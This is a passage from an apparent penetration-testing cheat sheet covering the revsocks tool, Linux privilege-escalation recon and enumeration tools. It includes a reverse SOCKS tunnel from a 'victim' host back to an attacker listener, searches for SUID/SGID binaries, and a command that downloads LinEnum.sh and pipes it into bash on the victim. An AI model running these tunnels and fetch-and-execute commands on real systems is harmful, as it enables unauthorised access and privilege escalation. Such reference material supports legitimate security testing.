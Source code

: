 


## revsocks

* [github.com/kost/revsocks](https://github.com/kost/revsocks)

```
1. root@kali:$ ./revsocks -listen :8000 -socks 127.0.0.1:1080 -pass 'Passw0rd!'
2. user@victim:$ ./revsocks -connect 10.14.14.3:8000 -pass 'Passw0rd!'
```





# LPE

* [PayloadsAllTheThings/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)




## Linux



### Recon

Find and list all files newer than `2020-03-16` and not newer than `2020-03-17`:

```
user@vict:$ find / -type f -readable -newermt '2020-03-16' ! -newermt '2020-03-17' -ls 2>/dev/null
```

Find SUID binaries:

```
# User
find / -type f -perm /4000 -ls 2>/dev/null
# Group
find / -type f -perm /2000 -ls 2>/dev/null
# Both
find / -type f -perm /6000 -ls 2>/dev/null
```


#### Tools

`LinEnum.sh`:

```
root@kali:$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh && python3 -m http.server 80
user@vict:$ wget 127.0.0.1/LinEnum.sh -qO- |bash
```

`lse.sh`:
